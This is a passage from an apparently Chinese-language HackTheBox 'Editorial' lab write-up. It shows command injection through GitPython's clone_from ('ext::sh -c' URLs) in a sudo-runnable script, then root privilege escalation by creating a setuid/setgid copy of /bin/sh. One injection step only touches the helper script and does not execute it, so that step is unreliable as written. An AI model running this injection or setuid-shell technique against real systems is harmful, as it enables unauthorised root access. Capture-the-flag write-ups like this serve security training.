

根据官方文档，该漏洞受影响的函数是 `git.repo.base.Repo.clone_from` ，该函数的第一个参数接收一个 URL ，假如对这个参数不做检验直接传给 `clone_from` 函数，就会造成命令执行漏洞

clone_prod_change.py 脚本存在的意义应该就是更自由地在受限环境中执行 Git 操作，它的 clone_from 参数是可控的，符合利用条件。接下来我给 `clone_prod_change.py` 文件传入 `ext::sh -c touch% /tmp/FuXian` 

```
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c touch% /tmp/FuXian"
```



看到虽然报错，但成功创建了 `/tmp/FuXian` 目录，漏洞测试成功。

**利用该漏洞提权**

```
Setuid（设置用户 ID 位）：当文件具有 setuid 权限时，无论谁执行该文件，该进程将以文件所有者的权限运行。
Setgid（设置组 ID 位）：当文件具有 setgid 权限时，无论谁执行该文件，该进程将以文件所属组的权限运行。
```

创建一个bash脚本，将 `/bin/sh` 复制至 `/tmp/a` ，给 `/tmp/a` 文件提升至 root 权限，并赋予 SetUID、SetGID

```
#!/bin/bash

cp /bin/sh /tmp/a
chown root:root /tmp/a
chmod 6777 /tmp/a
```

```
echo -e '#!/bin/bash\n\ncp /bin/sh /tmp/a\nchown root:root /tmp/a\nchmod 6777 /tmp/a' > /dev/shm/a.sh
```



```
chmod +x a.sh
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c touch% /dev/shm/a.sh"
```



执行 `/tmp/a` ，`-p` 保留权限，完成 Root 提权




直接利用


---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/hackthebox-editorial/  

